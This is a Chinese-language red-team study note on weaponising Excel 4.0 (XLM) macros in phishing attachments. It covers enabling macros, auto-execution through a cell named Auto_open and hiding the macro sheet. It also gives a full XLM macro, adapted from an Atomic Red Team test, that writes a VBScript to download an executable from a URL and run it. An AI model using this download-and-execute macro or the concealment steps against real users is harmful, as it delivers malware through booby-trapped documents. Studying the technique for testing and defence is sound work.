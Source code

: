 ```yaml
---
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - Office宏
  - Excel4.0宏
excerpt: Excel 4.0 宏是一种在 Microsoft Excel 中使用的宏语言，它是 Excel 中较早期版本的一部分，通常用于自动化和批处理任务。Excel 4.0 宏提供了一组命令和函数，可以执行各种操作，包括计算、数据操作、格式设置等。
---
```


# Excel4.0宏

> [利用Excel 4.0宏执行任意命令 | AdminTony's Blog](http://www.admintony.com/Excel-4-0-macros.html)
>
> [atomic-red-team/atomics/T1204.002/T1204.002.md at 2dcdc27df73cc343d308e7c0afa37f2d77aa02e1 · Ayusummer/atomic-red-team (github.com)](https://github.com/Ayusummer/atomic-red-team/blob/2dcdc27df73cc343d308e7c0afa37f2d77aa02e1/atomics/T1204.002/T1204.002.md#atomic-test-6---excel-4-macro)
>
> ---
>
> [使用 Excel 4.0 宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/office/使用-excel-4-0-宏-ba8924d4-e157-4bb2-8d76-2c07ff02e0b8)
>
> ---
>
> [老树开新花：利用Excel 4.0宏躲避杀软检测的攻击技术分析 (qq.com)](https://mp.weixin.qq.com/s/KVpO02KJWE6OVZDb0ungOA)
>
> [Old school: evil Excel 4.0 macros (XLM) | Outflank](https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

Excel 4.0 宏是一种在 Microsoft Excel 中使用的宏语言，它是 Excel 中较早期版本的一部分，通常用于自动化和批处理任务。Excel 4.0 宏提供了一组命令和函数，可以执行各种操作，包括计算、数据操作、格式设置等。

Microsoft很早就使用VBA宏（Visual Basic for Applications）来代替Excel 4.0宏技术，这导致Excel 4.0宏并不为大众所熟知。并且Excel 4.0宏存放在Excel 97 - 2003格式（.xls）文件中。

默认情况下 office 是禁用宏的, 要启用 Excel4.0宏支持需要

`打开 Excel -> 文件 -> 选项 -> 信任中心 -> 信任中心设置 -> 宏设置 -> 启用所有宏`

![image-20240422170036218](http://cdn.ayusummer233.top/DailyNotes/202404221700959.png)

创建一个新的 Excel 工作簿, `右键 Sheet1 -> 插入 -> MS Excel 4.0 宏表`

![image-20240422170503721](http://cdn.ayusummer233.top/DailyNotes/202404221706938.png)

![image-20240422170635598](http://cdn.ayusummer233.top/DailyNotes/202404221706681.png)

`确定` 后可以看到多了一张名为 `宏1` 的表, 可以在其中输入 XLM宏, 然后可以单击任何单元格并在此单元格和竖直下面的单元格中输入宏公式

![image-20240422170717659](http://cdn.ayusummer233.top/DailyNotes/202404221707820.png)

XLM 宏有如下特征:

- **函数式宏**：XLM 宏通常以函数的形式出现在 Excel 单元格中。这些函数以等号（=）开头，后面跟随一系列的参数和函数名。例如：`=HALT()`。
- **内置函数**：XLM 提供了一系列内置函数，用于执行各种操作，如文件操作、计算、格式设置等。例如：`HALT()` 用于停止执行宏，`GOTO()` 用于跳转到指定位置等。
- **参数**：XLM 函数可以带有参数，用于指定函数执行时所需的信息。参数可以是常量、单元格引用或者其他函数的返回值。
- **宏表**：除了存储在单元格中，XLM 宏还可以存储在 Excel 的宏表中。宏表是一种特殊的工作表，其中的内容被解释为宏代码而不是普通的数据。你可以在 Excel 中创建宏表，并在其中编写 XLM 宏代码。
- **简单的语法**：相比于 VBA（Visual Basic for Applications），XLM 的语法相对简单。它没有像 VBA 那样的完整的编程语言功能，但足以完成一些基本的自动化任务。

例如写一个调起计算器的 XLM:

```
=EXEC("calc.exe")
=HALT()
```

然后可以右键宏起始单元格选择 `执行`

![image-20240422173251380](http://cdn.ayusummer233.top/DailyNotes/202404221732515.png)

![image-20240422173504260](http://cdn.ayusummer233.top/DailyNotes/202404221735383.png)

![image-20240422173531256](http://cdn.ayusummer233.top/DailyNotes/202404221735362.png)

---

## 自动执行

如果希望在打开工作簿时自动运行宏（类似于VBA宏的 `Sub AutoOpen()`）可以将宏的第一个单元格重命名为`Auto_open`

![image-20240422174158340](http://cdn.ayusummer233.top/DailyNotes/202404221741405.png)

保存时选择 `Excel 97-2003 工作簿(*.xls)`

![image-20240422174251880](http://cdn.ayusummer233.top/DailyNotes/202404221742953.png)

再打开这个文件时会自动执行宏

![image-20240422174334700](http://cdn.ayusummer233.top/DailyNotes/202404221743787.png)

---

## 隐藏表单

![image-20240422174355987](http://cdn.ayusummer233.top/DailyNotes/202404221743058.png)

![image-20240422174404534](http://cdn.ayusummer233.top/DailyNotes/202404221744642.png)

即便隐藏了, 设置自动执行的宏也会自动执行

![image-20240422174438706](http://cdn.ayusummer233.top/DailyNotes/202404221744835.png)

---

## 加载 shellcode

> [老树开新花：利用Excel 4.0宏躲避杀软检测的攻击技术分析 (qq.com)](https://mp.weixin.qq.com/s/KVpO02KJWE6OVZDb0ungOA)
>
> [Old school: evil Excel 4.0 macros (XLM) | Outflank](https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

---

## 下载与执行远程文件

虽然 XLM 不支持网络操作和文件下载, 但是可以通过新建并写入一个 VBScript 并运行来实现下载与运行

例如

```
Win10Pro
procexp.exe
atomic_redteam_x4m_exec.vbs
=IF(ISNUMBER(SEARCH("64",GET.WORKSPACE(1))), GOTO(A5),)
=FOPEN("C:\Users\"&A1&"\AppData\Local\Temp\"&A3&"", 3)
=FWRITELN(A5, "url = ""http://127.0.0.1:8000/download/msedge.exe""")
=FWRITELN(A5, "")
=FWRITELN(A5, "Set winHttp = CreateObject(""WinHTTP.WinHTTPrequest.5.1"")")
=FWRITELN(A5, "winHttp.Open ""GET"", url, False")
=FWRITELN(A5, "winHttp.Send")
=FWRITELN(A5, "If winHttp.Status = 200 Then")
=FWRITELN(A5, "Set oStream = CreateObject(""ADODB.Stream"")")
=FWRITELN(A5, "oStream.Open")
=FWRITELN(A5, "oStream.Type = 1")
=FWRITELN(A5, "oStream.Write winHttp.responseBody")
=FWRITELN(A5, "oStream.SaveToFile ""C:\Users\"&A1&"\AppData\Local\Temp\"&A2&""", 2")
=FWRITELN(A5, "oStream.Close")
=FWRITELN(A5, "End If")
=FCLOSE(A5)
=EXEC("explorer.exe C:\Users\"&A1&"\AppData\Local\Temp\"&A3&"")
=WAIT(NOW()+"00:00:05")
=EXEC("explorer.exe C:\Users\"&A1&"\AppData\Local\Temp\"&A2&"")
=HALT()
```

![image-20240422190714511](http://cdn.ayusummer233.top/DailyNotes/202404221907695.png)

![image-20240422191356514](http://cdn.ayusummer233.top/DailyNotes/202404221913585.png)

![image-20240422191427234](http://cdn.ayusummer233.top/DailyNotes/202404221914321.png)

---

## 相关链接

- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

---















